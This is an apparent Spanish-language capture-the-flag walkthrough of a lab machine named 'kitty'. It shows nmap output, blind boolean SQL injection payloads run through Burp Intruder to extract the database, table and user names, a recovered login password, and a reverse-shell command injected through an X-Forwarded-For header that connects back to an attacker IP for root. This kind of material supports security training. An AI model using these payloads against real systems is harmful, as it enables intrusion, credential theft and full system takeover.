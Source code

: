 ### nmap
```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![[Pasted image 20240204210908.png]]

![[Pasted image 20240204211038.png]]
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![[Pasted image 20240204213231.png]]

![[Pasted image 20240204213305.png]]

### Fuzzing con gobuster

![[Pasted image 20240204213332.png]]
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![[Pasted image 20240204220002.png]]

intruder
![[Pasted image 20240204220113.png]]

configuramos el payloads
![[Pasted image 20240204220220.png]]
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![[Pasted image 20240204222627.png]]

para el tercer posición obtenemos la letra "w"
![[Pasted image 20240204223225.png]]
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![[Pasted image 20240204235500.png]]

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![[Pasted image 20240205000151.png]]
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![[Pasted image 20240205001529.png]]
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

```python
	username: kitty
	password: L0ng_Liv3_kittY
```

### ssh

![[Pasted image 20240205003102.png]]

### Escalada de Privilegios

![[Pasted image 20240205004914.png]]
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  
![[Pasted image 20240205005339.png]]

### localhost:8080

![[Pasted image 20240205005619.png]]
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![[Pasted image 20240205011158.png]]
esperamos un rato a que se haga el guardado 

### WE ARE ROOT

![[Pasted image 20240205012010.png]]
